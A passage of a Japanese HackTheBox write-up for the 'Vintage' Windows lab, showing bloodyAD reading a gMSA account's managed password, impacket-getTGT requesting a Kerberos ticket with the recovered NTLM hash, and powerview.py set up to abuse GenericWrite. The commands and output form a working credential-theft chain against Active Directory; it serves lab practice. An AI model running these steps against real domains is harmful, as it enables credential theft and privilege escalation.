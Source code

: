 もう一つの方法は [bloodyAD](https://github.com/CravateRouge/bloodyAD) を使う方法です。

以下のコマンドでパスワードを抽出することができます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -u FS01 -p fs01 -k get object 'gMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:7dc430b95e17ed6f817f69366f35be06
msDS-ManagedPassword.B64ENCODED: sfyyjet8CbAO5HFzqbtcCtYlqyYohprMvCgeztWhv4z/WOQOS1zcslIn9C3K/ucxzjDGRgHJS/1a54nxI0DxzlhZElfBxQL2z0KpRCrUNdKbdHXU/kzFj/i38JFgOWrx2FMIGKrEEIohO3b2fA/U/vlPxw65M+kY2krLxl5tfD1Un1kMCByA1AI4VuR5zxXSfpnzFIxKlo1PKBJUxttMqbRM21I5/aLQnaIDCnr3WaqfU6lLwdGWxoz6XSD3UiqLaW5iDPYYR47kJpnflJgS0TBUBkvd2JiLiOb5CXF1gBgUsbVLtBo/OWW/+lrvEpBtS7QIUFsOKMIaNsKFGtTkWQ==
```

`GMSA01` のNTLMハッシュを取得しました。つづいて、gMSA01を `ServiceManagers` に追加します。

# GenericWriteの悪用

[powerview.py](https://github.com/aniqfakhrul/powerview.py)を使います。これはPowerViewをlinux上から使うことができる便利なスクリプトです。

以下のコマンドでPowerViewを使うことのできる特別なシェルが起動します。

その前に `gMSA01` のTGTを取得しておきます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-getTGT -hashes :7dc430b95e17ed6f817f69366f35be06 vintage.htb/gMSA01
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in gMSA01.ccache
```

チケットをエクスポート

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=gMSA01.ccache
                    
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist
Ticket cache: FILE:gMSA01.ccache
Default principal: gMSA01@VINTAGE.HTB

Valid starting       Expires              Service principal
2025-01-13T10:51:17  2025-01-13T20:51:17  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 2025-01-14T10:51:17
```

チケットを使用してpowerview.pyを起動します。

```bash
powerview -k --no-pass vintage.htb/gMSA01@dc01.vintage.htb
```
